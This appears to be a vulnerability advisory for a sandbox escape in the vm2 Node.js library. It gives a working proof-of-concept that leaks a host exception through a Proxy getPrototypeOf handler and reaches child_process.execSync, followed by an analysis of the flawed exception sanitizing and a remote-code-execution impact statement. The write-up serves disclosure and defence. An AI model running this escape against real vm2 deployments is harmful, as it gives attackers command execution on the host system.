 Then, I found this PoC exposing the problem:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

### **Code Analysis**

As host exceptions may leak host objects into the sandbox, code is preprocessed with `transformer()` in order to instrument the code with `handleException()` sanitizer function calls.

For `CatchClause` with `ObjectPattern` the code calls `handleException()` and then re-throws the sanitized exception inside a **nested try-catch**. ([lib/transformer.js:121](https://github.com/patriksimek/vm2/blob/3.9.16/lib/transformer.js#L121))

`handleException()` function is an alias of `thisEnsureThis()`, which in turn calls `thisReflectGetPrototypeOf(other)` (again, an alias of `Reflect.getPrototypeOf()`) to access the object's prototype ([lib/bridge.js:835](https://github.com/patriksimek/vm2/blob/3.9.16/lib/bridge.js#L835)).

However, this may be proxied through a `getPrototypeOf()` proxy handler which can by itself throw an unsanitized host exception, resulting in the outer catch statement receiving it.

An attacker may use any method to raise a non-proxied host exception ([test/vm.js:1082](https://github.com/patriksimek/vm2/blob/3.9.16/test/vm.js#L1082) for example) inside a `getPrototypeOf()` proxy handler, register it to an object and throw it to leak host exception, and finally use it to access host `Function`, escaping the ~~sandbox~~.


### **Impact**

**Remote Code Execution**, assuming the attacker has arbitrary code execution primitive inside the context of vm2 sandbox.
